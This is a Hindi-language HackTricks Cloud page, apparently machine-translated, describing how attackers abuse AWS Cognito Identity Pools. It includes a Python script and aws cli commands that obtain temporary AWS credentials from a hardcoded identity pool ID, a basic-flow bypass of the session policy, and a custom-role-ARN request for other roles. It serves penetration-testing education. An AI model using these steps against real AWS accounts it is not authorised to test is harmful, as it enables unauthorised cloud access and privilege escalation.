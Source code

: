 # Cognito आईडेंटिटी पूल

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

## मूलभूत जानकारी

एक आईडेंटिटी पूल के साथ, आपके उपयोगकर्ताओं को **AWS सेवाओं तक पहुंच के लिए अस्थायी AWS क्रेडेंशियल प्राप्त करने** की सुविधा होती है, जैसे Amazon S3 और DynamoDB. आईडेंटिटी पूल अनाम अतिथि उपयोगकर्ताओं का समर्थन करते हैं, साथ ही निम्नलिखित पहचान प्रदाताओं का समर्थन करते हैं जिनका उपयोग आप आईडेंटिटी पूल के लिए उपयोगकर्ताओं को प्रमाणित करने के लिए कर सकते हैं:

* Amazon Cognito उपयोगकर्ता पूल
* Facebook, Google, Login with Amazon और Sign in with Apple के साथ सामाजिक साइन-इन
* OpenID Connect (OIDC) प्रदाताओं
* SAML पहचान प्रदाताओं
* डेवलपर प्रमाणित पहचान

### Cognito Sync

आईडेंटिटी पूल सत्रों को उत्पन्न करने के लिए, पहले आपको **आईडेंटिटी आईडी उत्पन्न करनी** होगी। यह आईडेंटिटी आईडी उपयोगकर्ता के सत्र की पहचान है। इन पहचानों में 20 डेटासेट हो सकते हैं जिनमें 1MB की कुंजी-मान-जोड़ी संग्रहित की जा सकती है।

यह **उपयोगकर्ता की जानकारी को संग्रहित रखने के लिए उपयोगी है** (जो हमेशा एक ही आईडेंटिटी आईडी का उपयोग करेगा)।

इसके अलावा, सेवा **cognito-sync** वह सेवा है जो इस जानकारी को **प्रबंधित और सिंक्रनाइज़ करने की सुविधा प्रदान करती है** (डेटासेट में, स्ट्रीम में जानकारी भेजने और SNSs संदेशों में...)।

## IAM भूमिकाओं तक पहुंच

### अप्रमाणित

एक हमलावर को एक Cognito ऐप में अप्रमाणित उपयोगकर्ता के रूप में **AWS क्रेडेंशियल प्राप्त करने** के लिए केवल वह चीज़ जानने की आवश्यकता होती है जो हैकट्रिक्स पहचान पूल आईडी है, और इस **आईडी को हार्डकोड** करना होता है वेब/मोबाइल **एप्लिकेशन** में इसका उपयोग करने के लिए। एक आईडी इस तरह से दिखती है: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (इसे ब्रूटफ़ोर्स नहीं किया जा सकता है)।

{% hint style="success" %}
अप्रमाणित उपयोगकर्ताओं के लिए बनाए गए **IAM Cognito अनथेंटिकेटेड भूमिका को** डिफ़ॉल्ट रूप से `Cognito_<Identity Pool name>Unauth_Role` कहा जाता है
{% endhint %}

यदि आपको किसी आईडेंटिटी पूल आईडी को हार्डकोड किया मिलता है और यह अप्रमाणित उपयोगकर्ताओं को अनुमति देता है, तो आप निम्नलिखित के साथ AWS क्रेडेंशियल प्राप्त कर सकते हैं:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
या आप निम्नलिखित **aws cli commands** का उपयोग कर सकते हैं:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
ध्यान दें कि डिफ़ॉल्ट रूप से एक अप्रमाणित cognito **उपयोगकर्ता को कोई अनुमति नहीं हो सकती है, यदि यह नीति के माध्यम से निर्धारित की गई हो**। निम्न खंड की जांच करें।
{% endhint %}

### Enhanced vs Basic Authentication flow

पिछले खंड ने **डिफ़ॉल्ट एन्हांस्ड प्रमाणीकरण फ़्लो** का पालन किया। यह फ़्लो एक **प्रतिबंधकारी** [**सत्र नीति**](../../aws-basic-information/#session-policies) को आईएएम रोल सत्र जेनरेट किया जाता है। यह नीति केवल सत्र को [**इस सूची से सेवाएं उपयोग करने की अनुमति देगी**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (यदि रोल को अन्य सेवाओं का उपयोग करने की अनुमति थी तो भी)।

हालांकि, यदि **आईडेंटिटी पूल में "बेसिक (क्लासिक) फ़्लो" सक्षम है**, तो उपयोगकर्ता उस फ़्लो का उपयोग करके एक सत्र प्राप्त कर सकेगा जिसमें **वह प्रतिबंधकारी सत्र नीति नहीं होगी**।

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
यदि आपको यह **त्रुटि** मिलती है, तो इसका कारण है कि **मूल फ्लो एनेबल नहीं है (डिफ़ॉल्ट)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

आपके पास IAM क्रेडेंशियल्स का सेट होने पर आपको [जांचना चाहिए](../../#whoami) कि आपके पास कौनसा एक्सेस है और [वृद्धि अधिकार](../../aws-privilege-escalation/) का प्रयास करें।

### प्रमाणित

{% hint style="info" %}
ध्यान दें कि **प्रमाणित उपयोगकर्ताओं** को संभवतः **अलग अनुमतियाँ प्रदान की जाएंगी**, इसलिए यदि आप **ऐप के अंदर साइन अप कर सकते हैं**, तो उसे करने का प्रयास करें और नए क्रेडेंशियल प्राप्त करें।
{% endhint %}

इसके अलावा, **प्रमाणित उपयोगकर्ताओं के लिए उपलब्ध भूमिकाएं** भी हो सकती हैं जो आईडेंटिटी पूल तक पहुंचते हैं।

इसके लिए आपको **आईडेंटिटी प्रदाता** तक पहुंच होनी चाहिए। यदि वह एक **कोग्निटो उपयोगकर्ता पूल** है, शायद आप डिफ़ॉल्ट व्यवहार का दुरुपयोग कर सकते हैं और **नया उपयोगकर्ता खुद बना सकते हैं**।

{% hint style="success" %}
**आईएएम कोग्निटो प्रमाणित भूमिका डिफ़ॉल्ट रूप से बनाई जाती है** `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

फिर भी, **निम्नलिखित उदाहरण** की उम्मीद है कि आपने पहले से ही एक **कोग्निटो उपयोगकर्ता पूल** में लॉग इन कर लिया है जिसका उपयोग आईडेंटिटी पूल तक पहुंच के लिए किया जाता है (याद रखें कि अन्य प्रकार के आईडेंटिटी प्रदाताओं को भी कॉन्फ़िगर किया जा सकता है)।

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# In the IdToken you can find roles a user has access because of User Pool Groups
# User the --custom-role-arn to get credentials to a specific role
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
**यह संभव है कि आईडेंटिटी प्रदाता के आधार पर विभिन्न IAM भूमिकाएं कॉन्फ़िगर की जा सकती हैं** उपयोगकर्ता लॉग इन हो रहा है या केवल **उपयोगकर्ता** पर निर्भर करती हैं (क्लेम का उपयोग करके)। इसलिए, यदि आपके पास एक ही या अलग-अलग प्रदाताओं के माध्यम से विभिन्न उपयोगकर्ताओं तक पहुंच है, तो शायद यह उपयोगकर्ताओं के IAM भूमिकाओं में लॉग इन करने और पहुंचने के लिए **उपयोगी हो सकता है**।
{% endhint %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
